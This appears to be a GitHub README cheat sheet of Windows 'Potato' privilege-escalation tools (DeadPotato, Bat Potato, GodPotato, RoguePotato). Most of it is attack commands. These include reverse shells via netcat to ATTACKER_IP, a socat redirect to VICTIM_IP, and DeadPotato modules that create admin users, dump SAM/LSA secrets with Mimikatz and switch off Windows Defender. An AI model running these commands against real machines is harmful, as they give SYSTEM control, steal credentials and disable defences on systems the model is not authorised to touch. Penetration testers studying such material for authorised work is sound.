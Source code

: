# Potato Exploits

Links for reference: 

1) https://github.com/AtvikSecurity/CentralizedPotatoes

2) https://jlajara.gitlab.io/Potatoes_Windows_Privesc


### 1) Dead Potato

Link: https://github.com/lypd0/DeadPotato

#### Usage

The SeImpersonatePrivilege right is enabled in your context? With DeadPotato, it is possible to achieve maximum privileges on the local system.

The tool will attempt to start an elevated process running in the context of the NT AUTHORITY\SYSTEM user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.

    C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.2 =-
        ⠈⠁⠀⠀⠀

    _,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_
  
     (*) Example Usage(s):

     -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

     -> deadpotato.exe -cmd "whoami"
     -> deadpotato.exe -rev 192.168.10.30:9001
     -> deadpotato.exe -exe paylod.exe
     -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
     -> deadpotato.exe -shell
     -> deadpotato.exe -mimi sam
     -> deadpotato.exe -defender off
     -> deadpotato.exe -sharphound

     (*) Available Modules:

     - cmd: Execute a command as NT AUTHORITY\SYSTEM.
     - rev: Attempts to establish a reverse shell connection to the provided host
     - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
     - newadmin: Create a new administrator user on the local system.
     - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
     - mimi: Attempts to dump SAM/LSA/SECRETS with Mimikatz. (NOTE: This will write mimikatz to disk!)
     - defender: Either enables or disables Windows Defender's real-time protection.
     - sharphound: Attempts to collect domain data for BloodHound.

### 2) Bat Potato

Link: https://github.com/0x4xel/Bat-Potato

#### Usage

Attacker:

    python Bat-Potato.py

Server will be listening incomming requests. Keep that connection alive, open new tab and open another listening port for the reverse shell.

    rlwrap nc -lvnp 4444

You must upload the following files on the server:

- wget.exe

- Bat-Potato.bat file generated by python script

On the server, execute

    .\Bat-Potato.bat

This will upload shell.bat, nc.exe and Juicy binary from server and will attempt to Privesc making all the CLSID request automatically.

### 3) God Potato

Link: https://github.com/BeichenDream/GodPotato

1) Run commands

        GodPotato -cmd "cmd /c whoami"

2) Execute reverse shell

        GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe ATTACKER_IP PORT"

### 4) Rogue Potato

You need to have a machine under your control where you can perform the redirect and this machine must be accessible on port 135 by the victim

Link: https://github.com/k4sth4/Rogue-Potato

1) Run on your machine the socat redirection

       socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999

2) Execute PoC

       .\RoguePotato.exe -r YOUR_IP -e "command" -l 9999
